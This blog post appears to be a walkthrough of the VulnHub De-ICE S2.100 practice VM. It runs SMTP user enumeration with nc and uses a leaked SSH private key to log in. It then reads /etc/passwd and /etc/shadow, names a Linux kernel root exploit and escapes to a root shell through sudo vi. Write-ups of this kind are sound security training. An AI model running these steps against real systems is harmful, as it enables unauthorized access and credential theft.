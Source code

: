 ```yaml
---
layout: post
title: "DE-ICE-S2.100"
date: 2015-05-10 11:40:38 +0200
comments: true
categories: 
---
```

Image: [De-ICE: S2.100](https://www.vulnhub.com/entry/de-ice-s2100,13/)

Nmap output:
{% codeblock %}
PORT    STATE  SERVICE  VERSION
21/tcp  open   ftp      vsftpd 2.0.4
22/tcp  open   ssh      OpenSSH 4.3 (protocol 1.99)
25/tcp  open   smtp     Sendmail 8.13.7/8.13.7
80/tcp  open   http     Apache httpd 2.0.55 ((Unix) PHP/5.1.2)
110/tcp open   pop3     Openwall popa3d
143/tcp open   imap     UW imapd 2004.357
{% endcodeblock %}

We found out that there is another IP address on the same network:
{% codeblock %}
Nmap scan report for 192.168.2.101
Host is up (0.00038s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:53:2F:A3 (VMware)
{% endcodeblock %}

Enumerating SMTP users, we get:
{% codeblock %}
root@kali:~# for i in $(cat /usr/share/ncrack/default.usr); do echo $i; echo -e "\nehlo lol\nmail from:$i@slax.example.net\nrcpt to:$i\nquit\n" | nc 192.168.2.100 25; done  | grep -i 'Recipient ok' 
250 2.1.5 root... Recipient ok
250 2.1.5 operator... Recipient ok
250 2.1.5 manager... Recipient ok
250 2.1.5 Manager... Recipient ok
250 2.1.5 adm... Recipient ok
250 2.1.5 lp... Recipient ok
250 2.1.5 MAIL... Recipient ok
250 2.1.5 system... Recipient ok
250 2.1.5 MANAGER... Recipient ok
250 2.1.5 OPERATOR... Recipient ok
250 2.1.5 halt... Recipient ok
250 2.1.5 Root... Recipient ok
250 2.1.5 SYSTEM... Recipient ok
250 2.1.5 ftp... Recipient ok
250 2.1.5 mail... Recipient ok
250 2.1.5 toor... Recipient ok
250 2.1.5 ROOT... Recipient ok
250 2.1.5 shutdown... Recipient ok
250 2.1.5 bin... Recipient ok
250 2.1.5 POSTMASTER... Recipient ok
250 2.1.5 nobody... Recipient ok
250 2.1.5 games... Recipient ok
250 2.1.5 postmaster... Recipient ok
250 2.1.5 NEWS... Recipient ok
250 2.1.5 sync... Recipient ok
250 2.1.5 INGRES... Recipient ok
250 2.1.5 daemon... Recipient ok
250 2.1.5 uucp... Recipient ok
250 2.1.5 Operator... Recipient ok
250 2.1.5 webmaster... Recipient ok
250 2.1.5 news... Recipient ok
{% endcodeblock %}

We used CEWL to create wordlist (userlist.txt) to reveal another user accounts.
Before we use this command, it's good to check if the disk is not full for
proper SMTP functionality.
{% codeblock %}
root@kali:# for i in $(cat ~/vulnhub/DE-ICE-S2.100/userlist.txt); do echo $i; echo -e "\nehlo lol\nmail from:$i@slax.example.net\nrcpt to:$i\nquit\n" | nc 192.168.2.100 25; done  | grep -i 'Recipient ok'
250 2.1.5 havisham... Recipient ok
250 2.1.5 magwitch... Recipient ok
250 2.1.5 pirrip... Recipient ok
{% endcodeblock %}

Again, this could be automatized using smtp-user-enum script:
{% codeblock %}
root@kali:# smtp-user-enum -M RCPT -f root@slax.example.net -U userlist.txt -t 192.168.2.100
{% endcodeblock %}

Dirb found the following URLs:
{% codeblock %}
http://192.168.2.101/~havisham/
http://192.168.2.101/~magwich/
http://192.168.2.101/~pirrip/
http://192.168.2.101/~pirrip/.ssh/
{% endcodeblock %}

We download the private key of pirrip user and log in:
{% codeblock %}
-----BEGIN RSA PRIVATE KEY-----
MIIEoQIBAAKCAQEA1pfb/CVukUw4Xe67YLEZzVHWNax0zJjI1CfcsoEGylmmtlA6
iXHi41nLshzXu9n536JfM9LFAWGqefBVX7Bzd/fC4+jHS3q89IK9FP7gFPwEmlNH
CwPX0ADxDFyB1lJOFffJ9gVw3VgHCaCPgS70UqJD0hZFDMSDMoBa91PylFQR0m58
nMq8DsGRbeC5hTdpLXKfBuW8v/lFuNEWVWNcZDie82aiJg8WRUUIrzeGZSR3+cG1
hi6za67VIi+ce8fFuBvIgaEpvJ0JSIX7zPLUV10ezW1NQRNplKSam3TIYI3+Ywuh
lcgpEyliHYReN6v91+um2c6LNy9y/vx2Akci5QIBIwKCAQEAvhF5s3GcchBPLqA/
kCfVBk/MW2zcerM1iLWXlsoNVCOFB+Co4CMKyV4pcd8IOKsfJSlqQ9fwUa5GiUKU
wne2urbf0S1CzdMcY4m9al4W7gPJkACeAnEeO+OTq9zoBvhxDCSc79ju7+7hqXD0
IfZjXyIBjjD7VHOKJWpfMtVTMunBCMqoAMa2veuN6LgDJweQNi7kon4qcj4SghGI
bdBv/Cnk7PMkG+DhafTRWyXGMWFpTHV4BNKv0i+k4lVV1oP9nJnh9jglY4EkD9LD
0Yt2QZt+XMTlxScsjcBpVGc9m4ZrgmRZGV0PTyMuWJtURkDBYPizkiPjjSZfUbyZ
y9QECwKBgQDsR9wLzrQbJIaOX8dG4rEt8pQHdYK7KCM8Bcq45iKKPzeLxchguM3o
+y9nRz5x8RWXWZUMl7PldoqwmrKh6WVCrdJ7mghPTYx3Djhcaf8q5XFTUhZH4xhB
72g1H6+JCECUjAFfjoSTOEswCFKYssgYA22x3fvLGg3S8f0UjjE1xQKBgQDogKVg
iyXCE833evccfrd/otsyVcxNincunAtYDAsqa2ZrjXL3oFwNwfC1CVKPhqDlnG46
M1tiSeYXygPbuPbHzRdu0ZuG7jRxxVdndl52gq/Zt8MKNRD9mdbFRcRMXmMRfaE4
RXdry9eB4rPywfWgJPGNVtOFZP6PRVv+IpoqoQKBgBRArHYKZzWGybRunA1j400U
ytwRYvoZYhsWcHY/nI+Bwu65Lm6wwTE6GgGJw4Yb+olQ0kLoboFh7qFsWHRHNJCv
0DZ66sT4BLm/Y+qp/+275SRmHyq7sZ9AaASNr/XNgeDYzOru9Wu0XjdRK6awPQlf
YSyAvc+UhNeRFbFOBDfPAoGAVlurI9vpc/i6N1mO+/SNTKo0KKOGZfGZ+16H3t/m
496/pEp7KMaIl2VKxuY0m7WpedsEXsKeSRQiQ1mpqWH1QuXG4AS2HCyXIvGG3Uk5
B3JekrH3/HocQO//UJZBmLVX/y6pmI7UlcC9wodnaMuzAPfHbwL+G5qKb7qtI+D3
busCgYATj4y+8msxNWRRNbHWAV7G0OurPDeZJ8F8NDLpM22X8fM08wgGRwkW4fpa
A+J8tN2ibiDqw29W6Rc1/4evAPbo3GR932W/ELOTOpP2yquiwoSxPG+HCLHmDITr
1qGHJRSOiFzo99iS5aQRhUvdl3M0lz1Cort7hjRKUkSWcT02Rw==
-----END RSA PRIVATE KEY-----
{% endcodeblock %}

{% codeblock %}
root@kali:~# chmod 600 pirrip-rsa.ssh
root@kali:~# ssh -l pirrip 192.168.2.100 -i pirrip-rsa.ssh
Linux 2.6.16.
pirrip@slax:~$

pirrip@slax:/etc$ cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1:bin:/bin:
daemon:x:2:2:daemon:/sbin:
adm:x:3:4:adm:/var/log:
lp:x:4:7:lp:/var/spool/lpd:
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/:
news:x:9:13:news:/usr/lib/news:
uucp:x:10:14:uucp:/var/spool/uucppublic:
operator:x:11:0:operator:/root:/bin/bash
games:x:12:100:games:/usr/games:
ftp:x:14:50::/home/ftp:
smmsp:x:25:25:smmsp:/var/spool/clientmqueue:
mysql:x:27:27:MySQL:/var/lib/mysql:/bin/bash
rpc:x:32:32:RPC portmap user:/:/bin/false
sshd:x:33:33:sshd:/:
gdm:x:42:42:GDM:/var/state/gdm:/bin/bash
pop:x:90:90:POP:/:
nobody:x:99:99:nobody:/:
pirrip:x:1000:10:Philip Pirrip:/home/pirrip:/bin/bash
magwitch:x:1001:100:Abel Magwitch:/home/magwitch:/bin/bash
havisham:x:1002:100:Estella Havisham:/home/havisham:/bin/bash
{% endcodeblock %}

The root accound can be obtained using exploit from Kali:
{% codeblock %}
root@kali:/usr/share/exploitdb# 

  * hoagie_udp_sendmsg.c
  * LOCAL LINUX KERNEL ROOT EXPLOIT (< 2.6.19) - CVE-2009-2698
{% endcodeblock %}

{% codeblock %}
sh-3.1# cat /etc/shadow
root:$1$/Ta1Q0lT$CSY9sjWR33Re2h5ohV4MX/:13882:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::
pirrip:$1$KEj04HbT$ZTn.iEtQHcLQc6MjrG/Ig/:13882:0:99999:7:::
magwitch:$1$qG7/dIbT$HtTD946DE3ITkbrCINQvJ0:13882:0:99999:7:::
havisham:$1$qbY1hmdT$sVZn89wKvmLn0wP2JnZay1:13882:0:99999:7:::

sh-3.1# cat /var/access/.htpasswd
aadams:bS.PQ9hVYEqrQ
{% endcodeblock %}

There is another way to get root account. At first we find out the password for
pirrip user:
{% codeblock %}
pirrip@slax:/var/spool/mail$ cat pirrip

E-Mail: pirrip@slax.example.net
Password: 0l1v3rTw1st
{% endcodeblock %}

{% codeblock %}
pirrip@slax:/var/spool/mail$ sudo -l
pirrip@slax:/var/spool/mail$ sudo vi
:!/bin/bash
{% endcodeblock %}

Finally, in /root/.save we obtain the following data:

{% codeblock %}
From sikes@slax.example.net  Sun Jan 13 23:53:37 2008
Return-Path: <sikes@slax.example.net>
Received: from slax.example.net (localhost [127.0.0.1])
        by slax.example.net (8.13.7/8.13.7) with ESMTP id m0DNlmHb009636
        for <pirrip@slax.example.net>; Sun, 13 Jan 2008 23:47:48 GMT
Received: (from sikes@slax.example.net)
        by slax.example.net (8.13.7/8.13.7/Submit) id m0DNlmDI009635
        for pirrip; Sun, 13 Jan 2008 23:47:48 GMT
From: Bill Sikes <sikes@slax.example.net>
Message-Id: <200801132347.m0DNlmDI009635@slax.example.net>
Date: Sun, 13 Jan 2008 23:47:48 +0000
To: pirrip@slax.example.net
Subject: Raises
User-Agent: nail 11.25 7/29/05
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit

Here's the data for raises for your team:
Philip Pirrip:  734-67-0424 5.5% $74,224
Abel Magwitch:  816-03-0028 4.0% $53,122
Estella Havisham: 762-93-1073 12% $84,325
{% endcodeblock %}
